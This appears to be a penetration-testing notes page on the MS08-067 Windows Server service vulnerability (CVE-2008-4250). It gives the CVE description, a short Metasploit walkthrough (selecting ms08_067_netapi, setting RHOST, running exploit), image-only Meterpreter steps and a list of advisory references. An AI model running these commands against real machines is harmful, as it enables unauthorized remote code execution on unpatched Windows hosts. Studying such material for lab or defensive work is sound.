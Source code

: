 # Remote Code Execution - ms08\_067

## CVE-2008-4250

### Description

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability."

## Using gunzip and Hydra

#### Gunzip

![](/assets/import.png)

#### Hydra

![](/assets/import2.png)

## Using Metasploit

![](/assets/Search_ms08_067.png)

```
msf > use exploit/windows/smb/ms08_067_netapi
```

```
msf > show options
```

```
msf > set RHOST <Target IP Address>
```

![](/assets/ms08_exploit.png)

```
msf > exploit
```

#### Meterpreter - Navigating

## ![](/assets/Nav1.png)



![](/assets/nav2.png)



![](/assets/nav3.png)



![](/assets/nav4.png)



#### Meterpreter - Hash the File

![](/assets/ms08_067_HashFile.png)



## 

## References

* BUGTRAQ:20081026 Windows RPC MS08-067 FAQ document released
* [URL:http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded)

* BUGTRAQ:20081027 Windows RPC MS08-067 FAQ document updated
* [URL:http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded)
* EXPLOIT-DB:6824
* [URL:https://www.exploit-db.com/exploits/6824](https://www.exploit-db.com/exploits/6824)
* EXPLOIT-DB:6841
* [URL:https://www.exploit-db.com/exploits/6841](https://www.exploit-db.com/exploits/6841)
* EXPLOIT-DB:7104
* [URL:https://www.exploit-db.com/exploits/7104](https://www.exploit-db.com/exploits/7104)
* EXPLOIT-DB:7132
* [URL:https://www.exploit-db.com/exploits/7132](https://www.exploit-db.com/exploits/7132)
* [MISC:http://blogs.securiteam.com/index.php/archives/1150](http://blogs.securiteam.com/index.php/archives/1150)
* HP:HPSBST02386
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* HP:SSRT080164
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* MS:MS08-067
* [URL:http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx](http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx)
* CERT:TA08-297A
* [URL:http://www.us-cert.gov/cas/techalerts/TA08-297A.html](http://www.us-cert.gov/cas/techalerts/TA08-297A.html)
* CERT:TA09-088A
* [URL:http://www.us-cert.gov/cas/techalerts/TA09-088A.html](http://www.us-cert.gov/cas/techalerts/TA09-088A.html)
* CERT-VN:VU\#827267
* [URL:http://www.kb.cert.org/vuls/id/827267](http://www.kb.cert.org/vuls/id/827267)
* BID:31874
* [URL:http://www.securityfocus.com/bid/31874](http://www.securityfocus.com/bid/31874)
* OVAL:oval:org.mitre.oval:def:6093
* [URL:https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093](https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093)
* SECTRACK:1021091
* [URL:http://www.securitytracker.com/id?1021091](http://www.securitytracker.com/id?1021091)
* VUPEN:ADV-2008-2902
* [URL:http://www.vupen.com/english/advisories/2008/2902](http://www.vupen.com/english/advisories/2008/2902)
* SECUNIA:32326
* [URL:http://secunia.com/advisories/32326](http://secunia.com/advisories/32326)
* XF:win-server-rpc-code-execution\(46040\)
* [URL:https://exchange.xforce.ibmcloud.com/vulnerabilities/46040](https://exchange.xforce.ibmcloud.com/vulnerabilities/46040)



